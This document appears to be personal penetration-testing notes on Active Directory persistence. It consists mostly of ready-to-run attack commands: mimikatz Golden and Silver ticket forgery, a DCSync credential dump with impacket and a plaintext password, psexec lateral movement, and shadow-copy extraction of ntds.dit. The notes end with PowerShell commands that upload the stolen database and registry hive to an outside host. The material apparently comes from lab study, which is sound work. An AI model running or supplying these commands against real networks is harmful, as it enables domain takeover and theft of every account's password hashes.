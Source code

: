 ## Persistence

With krbtgt, We can create a Golden ticket.

### Links

- [LSA Dump](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump)


### Golden Ticket Attack

```
# Assuming that Victim account is member of Domain Admin or we have compromised the DC.
# Let's extract pass hash of krbtgt account with mimikatz.

mimikatz
privilege::debug
lsadump::lsa /patch # Look for User:krbtgt and it's NTLM Hash.

kerberos::purge
kerberos::golden /user:<TOPI> /domain:<domain_name> /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:<NTLM hash> /ptt
# This is allowed because DC trusts anything which is encrytped by krbtgt pass hash.

misc::cmd
psexec.exe \\dc01 cmd.exe # Lateral movement to DC.
whoami
whoami /groups
```

### DCSync Attack

```
DSync (Domain Controller Synchronization) -> Steal Pass hashes of all Admin Users in Domain.

Methods:
1) Laterally move to DC and run mimikatz to dump pass hash of every user.
2) Steal ntdis.dit from DC.
3) Above 2 requires tool upload and can get caught so we use 3rd method to abuse DC's functionality.
# Login with a Local admin priv account and run mimikatz.

mimikatz
lsadump::dcsync /user:Administrator # Administrator is target account.


impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.205.70

```

We can request a replication update with a DC and obtain the pass hashes of every account in Active Directory without ever logging in to the domain controller.


### Other Notes

### Silver Tickets
```
iwr -UseDefaultCredentials http://web04
privilege::debug
sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit


klist
iwr -UseDefaultCredentials http://web04 | findstr /i OS{
(iwr -UseDefaultCredentials http://web04).Content | findstr /i "OS{"



```

### Shadow Copies
```
*Shadow Copies*

vshadow.exe -nw -p  C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL



powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\ntds.dit.bak')"


powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\system.bak')"
```